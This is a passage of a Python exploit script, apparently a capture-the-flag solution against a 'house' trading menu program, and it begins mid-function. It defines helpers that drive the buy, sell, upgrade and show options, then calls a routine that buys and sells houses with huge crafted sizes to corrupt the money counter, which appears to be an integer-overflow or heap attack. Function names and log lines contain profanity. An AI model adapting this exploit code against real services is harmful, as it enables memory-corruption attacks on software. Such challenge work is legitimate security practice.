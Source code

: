 ```
        log.critical("fucked a really big house")
        return
    sn(buf)

def show_house(index, reading = True):
    ru("Your choice: ")
    sl("2")
    ru("Index:")
    sl(str(index))
    if reading == True:
        return ru("$$$$$$$$$$$$$$$$$$$$$$$$$$$$")[:-len("$$$$$$$$$$$$$$$$$$$$$$$$$$$$")]

def upgrade(index, buf):
    ru("Your choice: ")
    sl("4")
    ru("Index:")
    sl(str(index))
    ru("House:")
    sn(buf)

def sell(index):
    ru("Your choice: ")
    sl("3")
    ru("Index:")
    sl(str(index))

def check_money():
    ru("Your choice: ")
    sl("1")
    ru("Your money:")
    money_now = int(rl().strip())
    #log.critical("money_now --> {money}".format(money = hex(money_now)))
    ru("Index:")
    sl("7")
    ru("Size:")
    sl(str(0x10))
    #log.critical("max calloc --> {money}".format(money = hex(money_now / 0xda)))
    return money_now

def buy_super(buf):
    ru("Your choice: ")
    sl("5")
    ru("House:")
    sn(buf)

def show_super():
    ru("Your choice: ")
    sl("6")
    ru("Here is supper house:\n")
    return p.read(0x217)

def fuck_money(size):
    buy_house(7, size, "\x00")
    sell(7)
    log.critical(hex(check_money()))


if __name__ == '__main__':
    fuck_money(0x13f69b02593f69b1)
    fuck_money(0x109bb0727572e2bd)
    fuck_money(0x13f2b1389a662c33)
    fuck_money(0x4fcace18cee3091)

```